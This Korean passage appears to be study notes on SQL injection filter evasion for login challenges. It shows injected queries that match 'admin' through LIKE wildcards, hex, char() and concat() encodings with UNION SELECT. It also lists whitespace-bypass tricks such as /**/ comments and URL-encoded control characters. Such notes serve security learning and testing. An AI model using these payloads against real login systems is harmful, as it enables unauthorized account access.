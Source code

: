 SELECT ID FROM USER WHERE ID= ' ' || id like 'ad_ _ n'#' and pw = ' '
SELECT ID FROM USER WHERE ID= ' ' || id like '_ _ min'#' and pw =' '
와 같은 쿼리문이 가능하다.



# 문자열 우회

admin 자체가 필터링 된 경우(문자열 필터링 경우)

위와 같이 like 와 %,_ 를 같이 이용하는 방법도 존재하나 

hex 로 문자열을 대체하는 방법과 char 로 대체하는 방법 또한 존재한다.

admin -> 0x61646d696e

admin -> char(97,100,109,105,110) 안의 숫자는 각 아스키 코드값에 해당 된다.



Concat 함수 -> 여러 문자열을 병합 해준다 

concat('a','dmi',n') -> 'admin' 에 해당된다.



위 3가지 방법과 UNION SELECT 를 이용하여 admin, # or 이 필터링 된 경우 우회 한다고 가정했을 때

SELECT ID FROM USER WHERE ID = '' ||id=0x61646d696e UNION SELECT '1'

SELECT ID FROM USER WHERE ID = '' ||id=char(97,100,109,105,110) UNION SELECT '1'

SELECT ID FROM USER WHERE ID = '' ||id=concat('a','dmi','n') UNION SELECT '1' 와 같이 우회가 가능하다.



# 공백 우회



쿼리에서 공백을 우회할 수 있는 방법들

/**/ 주석 이지만 공백 역할이 가능하다.

() 괄호를 통한 우회



URL ENCODING

Tab -> %09

Line Feed -> %0a

Vertical Tab -> %0b

Form Feed -> %0c

Carriage Return -> %0d



@%00와 %0a 와 같은 경우 한 글자로 취급되기 때문에 id 와 pw에 제한이 있을 때 유용하게 사용될 수 있다.

